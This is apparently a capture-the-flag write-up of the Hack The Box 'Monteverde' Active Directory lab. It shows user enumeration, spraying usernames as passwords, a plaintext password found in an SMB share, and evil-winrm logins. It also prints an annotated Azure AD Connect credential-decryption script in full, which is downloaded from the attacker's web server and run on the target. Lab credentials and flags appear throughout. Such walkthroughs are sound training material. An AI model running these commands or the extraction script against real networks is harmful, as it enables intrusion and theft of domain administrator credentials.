





Introduction
Monteverde is a medium ranked machine that starts off with enumerating users, then finding password to another user on an SMB share. This new user is part of Azure Admins group and dump the Administrator's password which we then use to login to the box and get the rootflag. Overall, it was a very easy box with a simple attack chain.
Enumeration
IP Address: 10.129.228.111
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
We can clearly deduce from all the open ports that this is going to be an Active Directory envrionment.
Enumerating Kerberos
I always like to start off with Kerberos since there are only a few certain attacks you can carry out without any sort of credentials.
Checking for non-preauth AS_REP response we get back nothing.
~/htb/boxes/OSCP-PREP/Monteverde ❯ impacket-GetNPUsers MEGABANK.LOCAL/ -request -dc-ip 10.129.228.111 | tee scans/getnpusers.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
No entries found!
Hmm, this doesn't give us anything :(. Let's see if I can manage to enumerate some usernames using kerbrute.
~/htb/boxes/OSCP-PREP/Monteverde ❯ kerbrute userenum --dc MONTEVERDE.MEGABANK.LOCAL -d MEGABANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt | tee scans/kerbrute.out
2025/03/22 19:57:06 > [+] VALID USERNAME: administrator@MEGABANK.LOCAL
2025/03/22 20:03:51 > [+] VALID USERNAME: Administrator@MEGABANK.LOCAL
2025/03/22 20:18:23 > [+] VALID USERNAME: smorgan@MEGABANK.LOCAL
I maange to find one username using Kerberos. I'll keep the scan running and see if I get any more output.
I will move on for now, but I can revisit Kerberos later (after I have some credz) to see if I can perform a Kerberoasting attack.
SMB Enumeration
After all of this, let me try to enumerate SMB. Maybe there are some public shares with some juicy data!
Let me try nxc with guest and null authentication.
~/htb/boxes/OSCP-PREP/Monteverde ❯ nxc smb 10.129.228.111 -u 'guest' -p '' --shares
SMB 10.129.228.111 445 MONTEVERDE [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\guest: STATUS_ACCOUNT_DISABLED
~/htb/boxes/OSCP-PREP/Monteverde 7s ❯ nxc smb 10.129.228.111 -u '' -p '' --shares
SMB 10.129.228.111 445 MONTEVERDE [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB 10.129.228.111 445 MONTEVERDE [+] MEGABANK.LOCAL\:
SMB 10.129.228.111 445 MONTEVERDE [-] Error enumerating shares: STATUS_ACCESS_DENIED
Hmm, so the guest account is disabled on the box(STATUS_ACCOUNT_DISABLED), and null authentication is not allowed to list any shares (STATUS_ACCESS_DENIED)
We learn that the target is running Windows 10 specifically Server 2019 Build 17763 x64.
We can generate an /etc/hosts entry using nxc so we can add it to our local file.
~/htb/boxes/OSCP-PREP/Monteverde 6s ❯ nxc smb 10.129.228.111 -u '' -p '' --generate-hosts-file scans/hosts
We get the following:
10.129.228.111 MONTEVERDE.MEGABANK.LOCAL MEGABANK.LOCAL MONTEVERDE
I add this to my /etc/hosts file and move on.
Let me see if I can enumerate any users. This is always a good trick to try even if you don't have permissions to list the shares.
~/htb/boxes/OSCP-PREP/Monteverde ❯ nxc smb 10.129.228.111 -u '' -p '' --users
SMB 10.129.228.111 445 MONTEVERDE [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB 10.129.228.111 445 MONTEVERDE [+] MEGABANK.LOCAL\:
SMB 10.129.228.111 445 MONTEVERDE -Username- -Last PW Set- -BadPW- -Description-
SMB 10.129.228.111 445 MONTEVERDE Guest <never> 0 Built-in account for guest access to the computer/domain
SMB 10.129.228.111 445 MONTEVERDE AAD_987d7f2f57d2 2020-01-02 22:53:24 0 Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB 10.129.228.111 445 MONTEVERDE mhope 2020-01-02 23:40:05 0
SMB 10.129.228.111 445 MONTEVERDE SABatchJobs 2020-01-03 12:48:46 0
SMB 10.129.228.111 445 MONTEVERDE svc-ata 2020-01-03 12:58:31 0
SMB 10.129.228.111 445 MONTEVERDE svc-bexec 2020-01-03 12:59:55 0
SMB 10.129.228.111 445 MONTEVERDE svc-netapp 2020-01-03 13:01:42 0
SMB 10.129.228.111 445 MONTEVERDE dgalanos 2020-01-03 13:06:10 0
SMB 10.129.228.111 445 MONTEVERDE roleary 2020-01-03 13:08:05 0
SMB 10.129.228.111 445 MONTEVERDE smorgan 2020-01-03 13:09:21 0
SMB 10.129.228.111 445 MONTEVERDE [*] Enumerated 10 local users: MEGABANK

Hint
Rather than using cut or awk to extract the output from nxc, you can use the built in flag --users-export FILENAME to export all of the users nxc finds to a filename. So the command would be something like this nxc smb 10.129.228.111 -u '' -p '' --users --users-export users
Running enum4linux we find a few addidtional things like the following:
- Password history length: 24
- Minimum password length: 7
I always like to look at the password policy since if we need to bruteforce some passwords later on we can use it to filter out any passwords that don't meet the required policy
So far I haven't found anything that intrigues me, so using the usernames that I just gatherd I'm going to check if someone has foolishly set their username as their password.
Just by cross-checking usernames with password policy I can remove some of the users :) like mhope. But I'll leave them anyway since this is jsut a simulated environment.
~/htb/boxes/OSCP-PREP/Monteverde 18s ❯ nxc smb 10.129.228.111 -u users -p users --no-bruteforce --continue-on-success 20:18:18 [1/13]
SMB 10.129.228.111 445 MONTEVERDE [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\svc-ata:svc-ata STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\svc-bexec:svc-bexec STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\svc-netapp:svc-netapp STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\roleary:roleary STATUS_LOGON_FAILURE
SMB 10.129.228.111 445 MONTEVERDE [-] MEGABANK.LOCAL\smorgan:smorgan STATUS_LOGON_FAILURE

Success! The SABatchJobs user has their password set to their username.
SABatchJobs / SABatchJobs
Initial Access
SABatchJobs->mhope
Since we now some have initial crez, let's see if there is anything interesting on the SMB shares.
~/htb/boxes/OSCP-PREP/Monteverde 23s ❯ nxc smb 10.129.228.111 -u SABatchJobs -p SABatchJobs --shares
SMB 10.129.228.111 445 MONTEVERDE [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB 10.129.228.111 445 MONTEVERDE [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
SMB 10.129.228.111 445 MONTEVERDE [*] Enumerated shares
SMB 10.129.228.111 445 MONTEVERDE Share Permissions Remark
SMB 10.129.228.111 445 MONTEVERDE ----- ----------- ------
SMB 10.129.228.111 445 MONTEVERDE ADMIN$ Remote Admin
SMB 10.129.228.111 445 MONTEVERDE azure_uploads READ
SMB 10.129.228.111 445 MONTEVERDE C$ Default share
SMB 10.129.228.111 445 MONTEVERDE E$ Default share
SMB 10.129.228.111 445 MONTEVERDE IPC$ READ Remote IPC
SMB 10.129.228.111 445 MONTEVERDE NETLOGON READ Logon server share
SMB 10.129.228.111 445 MONTEVERDE SYSVOL READ Logon server share
SMB 10.129.228.111 445 MONTEVERDE users$ READ

The azure_uploads and users$ stick out to me.
Now, there are two ways we could go about enumerating those shares.
-
Use impacket-smbclient to manually log in using the SABatchJobs user and enumerate them manually
-
Use a nxc module created for 'spidering' the shares, so we can get an overview of all the files in it. We can then thereafter go and download the files that intrigue us.
The module is called spider_plus.
~/htb/boxes/OSCP-PREP/Monteverde ❯ nxc smb 10.129.228.111 -u SABatchJobs -p SABatchJobs -M spider_plus
~/htb/boxes/OSCP-PREP/Monteverde ❯ cat /home/ma1ware/.nxc/modules/nxc_spider_plus/10.129.228.111.json | jq .
"azure_uploads": {},
"users$": {
"mhope/azure.xml": {
"atime_epoch": "2020-01-03 16:41:18",
"ctime_epoch": "2020-01-03 16:39:53",
"mtime_epoch": "2020-01-03 17:59:24",
"size": "1.18 KB"
}
}

The azure_uploads is empty, we also don't have any write permissions for it at the current time. There is a file in users$ named azure.xml in mhope's folder!
Downloading the file

The file contains the following:
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0">
<T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
<T>System.Object</T>
</TN>
<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<Props>
<DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
<DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
<G N="KeyId">00000000-0000-0000-0000-000000000000</G>
<S N="Password">4n0therD4y@n0th3r$</S>
</Props>
</Obj>
</Objs>
Since we found this in mhope's folder we can safely assume that this password belongs to them.
We can use nxc to confirm that the credentials are valid. (they are!)
mhope / 4n0therD4y@n0th3r$
Running the creds against winrm protocol using nxc also reveals that the credentials are also valid there.
Logging into the box using evil-winrm
~/htb/boxes/OSCP-PREP/Monteverde ❯ evil-winrm -i MEGABANK.LOCAL -u mhope -p '4n0therD4y@n0th3r$'
Evil-WinRM shell v3.7
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
user.txt: 5d0c9f63d1327842f02bd437f5b92dd2
Post-Exploitation
mhope->Administrator
I then proceed to run a bloodhound ingestor so I can get an overview of what the AD environment is like. Probably should have used my latest creds but it doesn't make a difference.
~/htb/boxes/OSCP-PREP/Monteverde/bh ❯ bloodhound-python -d MEGABANK.LOCAL -u 'SABatchJobs' -p 'SABatchJobs' --zip -c All -ns 10.129.228.111
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: megabank.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: MONTEVERDE.MEGABANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: MONTEVERDE.MEGABANK.LOCAL
INFO: Found 13 users
INFO: Found 65 groups
INFO: Found 2 gpos
INFO: Found 9 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MONTEVERDE.MEGABANK.LOCAL
INFO: Done in 01M 11S
INFO: Compressing output into 20250322202058_bloodhound.zip
I see that the mhope user is part of the Azure Admins group but nothing else. After wasting a bit of time here, I safely conclude that there is really nothing else interesting in the output. So I can now proceed to enumerate on the box itself.
Analysis
I find a .Azure directory in mhope's home directory.
Simply googlging around for Azure Admins group privesc leads me to this script: https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1
Let's break it down step by step so we know what we are running on our target environment!
tl;dr: Script fetches some stuff from the database, script then fetches encrypted stuff from the database, script decodes encrypted stuff using stuff from first fetch, script prints out decrypted stuff in a good format
You can skip this section if you want.
Function Azure-ADConnect {param($db,$server)
$help = @"
.SYNOPSIS
Azure-ADConnect
PowerShell Function: Azure-ADConnect
Author: Luis Vacas (CyberVaca)
Based on: https://blog.xpnsec.com/azuread-connect-for-redteam/
Required dependencies: None
Optional dependencies: None
.DESCRIPTION
.EXAMPLE
Azure-ADConnect -server 10.10.10.10 -db ADSync
Description
-----------
Extract credentials from the Azure AD Connect service.
"@
This gives us a general overview of what the script does.
The function is called Azure-ADConnect and it takes in two parameters:
-
The IP address of the server - in our case 127.0.0.1 since we are going to run it in box itself. -
-
The name of the database - in our case it is ADSync -
if ($db -eq $null -or $server -eq $null) {
$help # Print out the help screen if parameters are not specified
} else {
# Setup a connection to the SQL server using paramters as well as the current user's token (credentials)
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server = $server; Database = $db; Initial Catalog=$db;Integrated Security = True;"
# Open the connection to the server
$client.Open()
# Create a command to run
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
# Execute the command
$reader = $cmd.ExecuteReader()
# Fetch important stuff that we need
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
# Close the connection
$reader.Close()
Detailed explanation:
The program checks to see if the db or the server paramter are empty. If so it proceeds to print out the help section.
If we pass the initial check, it then proceeds to set up a connection to a SQL Server using the aforementioned paramters (db name, and server) as well as using the current users credentials (mhope).
After openeing the connection, it creates an SQL query
SELECT keyset_id, instance_id, entropy FROM mms_server_configuration and then runs it on the server.
This query extracts 3 things
- The key (an int), sample output: 1
- The instance_id (a GUID), sample output: 1852b527-dd4f-4ecf-b541-efccbff29e31
- entropy (a GUID), sample output: 194ec2fc-f186-46cf-b44d-071eb61f49cd
We will need this later in order to decrypt the encrypted format.
# Create another command
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
# Execute the command
$reader = $cmd.ExecuteReader()
# Fetch the output
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
# Close the connection
$reader.Close()
Detailed explanation:
This is pretty similar to the previous section in that if fetches some stuff :)
The block starts out with the author creating an SQL command SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'.
This SQL command extracts:
- private_configuration_xml (which contains basic user/domain info, also specifies if password is encrypted or not)
Sample output:
<adma-configuration>
<forest-name>MEGABANK.LOCAL</forest-name>
<forest-port>0</forest-port>
<forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
<forest-login-user>administrator</forest-login-user>
<forest-login-domain>MEGABANK.LOCAL</forest-login-domain>
[snip.....]
- encrypted_configuration which contains our encrypted password (base64 encrypted)
Sample output:
8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8
Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g95aWEcUSzl7mTXwR4Pe3uvsf2P8Oafih7cjjsubFxqBioXBUIuP+BPQCETPAtccl7BNRxKb2aGQ=
It then proceeds to store them in their respected variables.
# Import the dll into powershell
add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
# Setup KeyMaanger object
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
# Pass it the data we gatherd from the first SQL command, and then decrypt the encrypted base64
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
Detailed explanation:
This block of the script uses add-type to a .NET dll into a powershell session. It then uses the keymanager utility and passes in the entropy, instance_id, and finally the key_id. We then fetch the appropriate symmetric key that we can use to decrypt the encrypted base64. As you might find out we are using Key #1.
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
"[+] Domain: " + $domain.Domain
"[+] Username: " + $username.Username
"[+]Password: " + $password.Password
}}
This is just parsing the decrypted xml and then outputting it in such a way that it is readable.
I then asked ChatGPT after pasting in the above file to modify the script so that it outputs all the variables as the program manges to find them. This is mostly so we can get a decent understanding of what is going on in the script. To see and run the modified version of the program, you can go visit this url:
https://gist.github.com/ma1ware07/a22a5c91122b158d3bae392acd52e17b
Anyway, we now have a very decent understanding of the script and we can proceed to get Administrator access now.
Administrator at last!
I spin up a webserver on port 80, and download the file using Invoke-WebRequest (iwr).
*Evil-WinRM* PS C:\Users\mhope> iwr -uri http://10.10.16.26/Azure-ADConnect.ps1 -Outfile Azure-ADConnect.ps1
*Evil-WinRM* PS C:\Users\mhope> . .\Azure-ADConnect.ps1
*Evil-WinRM* PS C:\Users\mhope> Azure-ADConnect -server localhost -db ADSync
[+] Domain: MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
We can login into the box using evil-winrm and then fetch the root flag.
~/htb/boxes/OSCP-PREP/Monteverde ❯ evil-winrm -i MEGABANK.LOCAL -u Administrator -p 'd0m@in4dminyeah!'
Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
root.txt: 6c5262d96d322d0928c3deea48fb993f
That's the box, I hope you enjoyed it!